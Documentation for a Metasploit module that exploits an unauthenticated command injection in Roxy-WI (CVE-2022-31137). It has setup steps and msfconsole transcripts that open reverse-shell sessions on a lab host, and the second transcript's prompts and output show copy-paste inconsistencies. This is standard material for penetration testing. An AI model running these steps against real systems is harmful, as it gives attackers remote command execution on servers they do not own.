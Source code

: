 ## Vulnerable Application

### Description

This module exploits command injection vulnerability to achieve remote code execution. Unauthenticated users
can execute a terminal command under the context of the web server user.

In versions 6.1.1.0 and earlier, an unauthenticated user can execute some methods of administrator fun
without needing any credentials. Due to the nature of the vulnerability, an adversary can change some part
of the webpage, or hijack an administrator account, or execute operating system command under the context
of the web-server user.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/advisory-roxy-wi-unauthenticated-remote-code-executions-cve-2022-31137/).

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out
required python and other packages.

[https://roxy-wi.org/installation.py](https://roxy-wi.org/installation.py)

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Options

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST`
5. Set `LHOST`
6. Set `USERNAME`
7. Set `PASSWORD`
8. Run `exploit`
9. Do: `run`
10. You should get a shell.
11. **Verify** that you are getting `meterpreter` session.


## Targets

### 0

`Python payload`

### 1
`Command payload`

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if 192.168.56.116:443 is vulnerable!
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[+] Exploit successfully executed.
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:35490) at 2022-07-19 14:13:41 +0300

meterpreter > ls
Listing: /var/www/haproxy-wi/app
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
```

You can also use cmd payloads.

```
msf6 >
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if 192.168.56.116:443 is vulnerable!
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[+] Exploit successfully executed.
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:35490) at 2022-07-19 14:13:41 +0300

id
uid=1000(xxx) gid=1000(xxx) groups=1000(xxx)
```
